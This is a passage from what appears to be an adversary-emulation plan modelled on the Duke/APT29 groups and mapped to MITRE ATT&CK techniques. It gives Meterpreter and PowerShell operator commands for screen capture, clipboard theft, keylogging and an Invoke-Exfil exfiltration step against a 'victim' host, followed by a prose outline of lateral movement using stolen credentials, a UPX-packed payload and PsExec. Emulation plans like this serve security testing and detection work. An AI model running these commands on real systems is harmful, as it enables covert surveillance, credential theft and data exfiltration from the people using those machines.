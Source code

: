 [meterpreter\*] > `execute -f powershell.exe -i -H`

[meterpreter (PowerShell)\*] > `cd "C:\Program Files\SysinternalsSuite"`

[meterpreter (PowerShell)\*] > `Move-Item .\psversion.txt psversion.ps1`

[meterpreter (PowerShell)\*] > `. .\psversion.ps1`

[meterpreter (PowerShell)\*] > `Invoke-ScreenCapture;Start-Sleep -Seconds 3;View-Job -JobName "Screenshot"`

From the Windows victim, type text and copy to the clipboard.

[meterpreter (PowerShell)\*] > `Get-Clipboard`

[meterpreter (PowerShell)\*] > `Keystroke-Check`

[meterpreter (PowerShell)\*] > `Get-Keystrokes;Start-Sleep -Seconds 15;View-Job -JobName "Keystrokes"`

From victim system, enter keystrokes.

View keylog output from Metasploit:

[meterpreter (PowerShell)\*] > `View-Job -JobName "Keystrokes"`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Keystrokes" -Force`
[meterpreter (PowerShell)\*] > `Remove-Job -Name "Screenshot" -Force`

##### 7.B - Compression and Exfiltration ([T1048](https://attack.mitre.org/techniques/T1048/), [T1002](https://attack.mitre.org/versions/v6/techniques/T1002/), [T1022](https://attack.mitre.org/versions/v6/techniques/T1022/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001/))

[meterpreter (PowerShell)\*] > `Invoke-Exfil`

#### Cited Intelligence

* Open Invitation Contributor: Kaspersky

* CosmicDuke’s information stealing functionality has included keylogging, taking screenshots, and stealing clipboard contents. Collected data can be exfiltrated using WebDAV. <sup> [1](https://www.f-secure.com/documents/996508/1030745/dukes_whitepaper.pdf), [2](https://blog-assets.f-secure.com/wp-content/uploads/2019/10/15163405/CosmicDuke.pdf) </sup>

* CozyDuke can be used to take screenshots of a full desktop window and encrypt collected data.<sup> [15](https://securelist.com/the-cozyduke-apt/69731/) </sup>

---

### Step 8 - Lateral Movement

The attacker uses Lightweight Directory Access Protocol (LDAP) queries to enumerate other hosts in the domain ([T1018](https://attack.mitre.org/techniques/T1018/)) before creating a remote PowerShell session to a secondary victim ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.006](https://attack.mitre.org/techniques/T1021/006/)). Through this connection, the attacker enumerates running processes ([T1057](https://attack.mitre.org/techniques/T1057/)). Next, the attacker uploads ([T1105](https://attack.mitre.org/techniques/T1105/)) a new UPX-packed payload ([T1027](https://attack.mitre.org/versions/v6/techniques/T1027/) / [T1027.002](https://attack.mitre.org/techniques/T1027/002/)) to the secondary victim. This new payload is executed on the secondary victim via the PSExec utility ([T1021](https://attack.mitre.org/versions/v6/techniques/T1021/) / [T1021.002](https://attack.mitre.org/techniques/T1021/002/), [T1035](https://attack.mitre.org/versions/v6/techniques/T1035/) / [T1569.002](https://attack.mitre.org/techniques/T1569/002/)) using the previously stolen credentials ([T1078](https://attack.mitre.org/versions/v6/techniques/T1078/) / [T1078.002](https://attack.mitre.org/techniques/T1078/002)).
